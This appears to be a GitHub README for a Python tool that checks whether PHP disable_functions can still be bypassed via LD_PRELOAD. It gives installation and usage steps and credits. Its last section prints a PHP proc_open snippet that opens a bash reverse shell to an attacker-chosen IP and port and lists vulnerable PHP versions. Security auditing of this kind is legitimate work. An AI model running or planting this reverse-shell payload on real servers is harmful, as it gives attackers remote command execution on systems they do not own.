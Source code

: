 <p align="center"><img src="images/banner.png" /></p>

# Dfunc-Bypasser
This is a tool that can be used by developers to check if exploitation using LD_PRELOAD is still possible given the current disable_functions in the php.ini file and taking into consideration the PHP modules installed on the server.

## Installation
`git clone https://github.com/UsifAraby/dfunc-bypasser-python3.git`

## Usage
There are two options to input the disable_functions list:
1. For help on the parameters:
`python3 dfunc-bypasser-python3.py -h`
2. Provide the phpinfo url:
`python3 dfunc-bypasser-python3.py --url https://example.com/phpinfo.php`
3. Provide the local phpinfo file:
`python3 dfunc-bypasser-python3.py --file dir/phpinfo`
4. Provide an additional header:
`python3 dfunc-bypasser-python3.py -H "Special-Header: dev"`

## Contributers
1. S Ashwin Shenoi
    * Github: [ashwinshenoi99](https://github.com/ashwinshenoi99)
    * Twitter: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)
2. Tarunkant Gupta
    * Github: [tarunkant](https://github.com/tarunkant/)
    * Twitter: [TarunkantG](https://twitter.com/TarunkantG)

from team [bi0s](https://bi0s.in)

## Screenshots

<img width="1112" height="593" alt="Screenshot 2025-09-22 010101" src="https://github.com/user-attachments/assets/3055c74d-f374-471a-b66a-b1a83c05c591" />

## RCE through `proc_open` :

```
<?php
// Vulnerable PHP versions: 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8

$command = "bash -c 'bash -i >& /dev/tcp/{Custom_IP}/{Custom_PORT} 0>&1'";
$descriptors = [
  0 => ['pipe','r'],
  1 => ['pipe','w'],
  2 => ['pipe','w']
];
$process = proc_open($command, $descriptors, $pipes);
if (is_resource($process)) {
    echo stream_get_contents($pipes[1]);
    proc_close($process);
} else {
    echo "proc_open failed\n";
}

?>
```

<img width="1878" height="891" alt="image" src="https://github.com/user-attachments/assets/ea05cfe4-3f7c-4601-b4b5-d7454c82b651" />



